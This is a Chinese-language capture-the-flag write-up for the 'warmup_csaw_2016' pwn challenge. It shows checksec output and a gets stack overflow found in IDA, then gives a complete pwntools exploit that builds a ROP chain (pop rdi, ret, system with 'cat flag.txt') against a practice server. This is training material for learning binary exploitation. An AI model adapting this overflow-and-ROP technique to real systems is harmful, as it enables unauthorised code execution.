


# 知识点

ret2libc（提供system和cat flag）


# 题目分析

1. 查看保护情况。没开启任何保护。

   ```bash
   [*] '/root/Desktop/warmup_csaw_2016'
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX disabled
       PIE:      No PIE (0x400000)
       RWX:      Has RWX segments
   ```

2. 拖入IDA，发现main函数存在gets栈溢出漏洞。并且提供了system函数。

   

3. 按shift + f12发现可疑字符串 cat flag.txt。

   

4. 很明显，题目提供了libc中的system函数，并且提供了cat flag.txt字符串，直接ret2libc即可。

   调用system函数，传递参数cat flag.txt。x64参数传递顺序：rdi、rsi、rdx、rcx、r8、r9、栈。

   我们还需要一个ROPgadget，将参数传递至rdi寄存器：

   ```bash
   ROPgadget --binary warmup_csaw_2016 --only "pop|ret"
   ```

   

# Exp

```python
from pwn import * 

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./warmup_csaw_2016')
io = remote('node4.buuoj.cn', '25103')
elf = ELF('./warmup_csaw_2016')

system = elf.plt['system']
binsh = elf.search('cat flag.txt').next()

pop_rdi = 0x400713
ret = 0x4004a1

payload = 'A' * 0x40 + 'deadbeef' + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
io.sendline(payload)

io.interactive()
```

